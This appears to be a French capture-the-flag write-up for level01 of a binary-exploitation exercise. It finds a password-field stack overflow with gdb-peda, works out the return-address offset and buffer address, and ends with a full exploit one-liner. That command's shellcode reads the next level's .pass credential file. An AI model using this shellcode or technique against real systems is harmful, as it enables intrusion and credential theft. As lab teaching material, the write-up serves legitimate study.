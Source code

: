 # Level 01
<a href="/level02"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- En testant des entrée trop longue on voit que la deuxieme entrée peut etre overflow
<pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
- On calcule donc le offset pour ecrire sur la Return Address
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 75
</pre>
- On recupere l'adress de la stack ou sera stocker le shellcode
<pre>
$> (echo dat\_wil; echo admin) | ltrace ./level01 1>&-
\_\_libc\_start\_main(0x80484d0, 1, -10540, 0x80485c0, 0x8048630 <unfinished ...>
puts("\*\*\*\*\*\*\*\*\* ADMIN LOGIN PROMPT \*\*\*"...)                            = 39
printf("Enter Username: ")                                             = 16
<strong>fgets("dat\_wil\n", 256, 0xf7fcfac0)                                    = 0x0804a040</strong>
puts("verifying username....\n")                                       = 24
puts("Enter Password: ")                                               = 17
fgets("admin\n", 100, 0xf7fcfac0)                                      = 0xffffd5ec
puts("nope, incorrect password...\n")                                  = 29
+++ exited (status 1) +++
</pre>
- Il suffit maintenant de lancer la commande
```
$> (python -c "print('dat_wil0' + 'jsh.pashl02/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')") | ./level01
```

